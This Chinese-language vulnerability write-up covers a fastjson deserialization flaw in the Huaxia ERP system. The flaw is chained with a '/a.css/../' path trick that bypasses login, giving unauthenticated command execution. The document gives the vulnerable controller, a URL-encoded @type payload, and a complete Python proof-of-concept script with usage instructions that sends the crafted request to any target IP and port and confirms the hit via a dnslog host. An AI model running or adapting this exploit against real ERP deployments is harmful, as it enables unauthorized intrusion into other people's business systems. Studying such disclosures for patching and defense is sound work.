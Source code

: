 ## 华夏ERP命令执行漏洞

## 漏洞描述

华夏ERP基于SpringBoot框架和SaaS模式，可以算作是国内人气较高的一款ERP项目，但经过源码审计发现其存在多个漏洞，本篇为命令执行漏洞

## 漏洞影响

> 华夏ERP

## FOFA

> 请自测

## 漏洞复现

漏洞复现：

漏洞代码位置：

```
com.jsh.erp.controller.DepotHeadController
```

漏洞代码分析：

pom.xml文件中引用了fastjson，且版本为1.2.55

![图片](resource/华夏命令执行/1.png)

查看代码发现com.jsh.erp.controller.DepotController存在反序列化

![图片](resource/华夏命令执行/2.png)

但在靶场站点未找到该接口，推测靶场站代码未更新，发现流量中存在另一个使用search参数的接口，进行反序列化测试：

![图片](resource/华夏命令执行/3.png)

对了要URL编码一下。。。

![图片](resource/华夏命令执行/4.png)

接下来就是见证奇迹的时刻，dnslog收到dns请求！

![图片](resource/华夏命令执行/5.png)

##组合拳-未授权命令执行

利用方式：

很简单，就是两个漏洞合并一下，如下：

![图片](resource/华夏命令执行/6.png)

可以看到我是没有携带Cookie的，dnslog依然收到了请求

![图片](resource/华夏命令执行/7.png)

组合拳的POC：

使用方法：

```
python3 华夏erp_fastjson.py x.x.x.x 80 qingy.dnslog.cn (替换你的dnslog地址)
```

源码：

```python
import socket,sys,re

def SendGet(res,ip,port):
    request = re.sub('[\r\n]','\r\n',res)
    port = int(port)
    sock = socket.socket()   # 建立socket
    sock.connect((ip, port))    # 远程连接
    sock.send(request.encode('ascii'))  # 向socket发送数据
    response = b''   
    chunk = sock.recv(4096)    # 从socket接收数据
    print(chunk.decode())
def main(ip,port,dnslog):
    test = '{"@type":"java.net.Inet4Address","val":"'+ dnslog +'"}'
    test = test.encode('utf-8')
    test = ''.join('%{:02X}'.format(x) for x in test)
    res = '''GET /a.css/../depotHead/list?search={data}¤tPage=1&pageSize=10 HTTP/1.1
Host: {host}
Accept: application/json, text/javascript, */*; q=0.01
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 11_0_1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.67 Safari/537.36 Edg/87.0.664.47
X-Requested-With: XMLHttpRequest
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6,pl;q=0.5
Connection: close

'''.format(data=test,host=ip+':'+port)
    #print(res)
    SendGet(res,ip,port)
main(sys.argv[1],sys.argv[2],sys.argv[3])
```
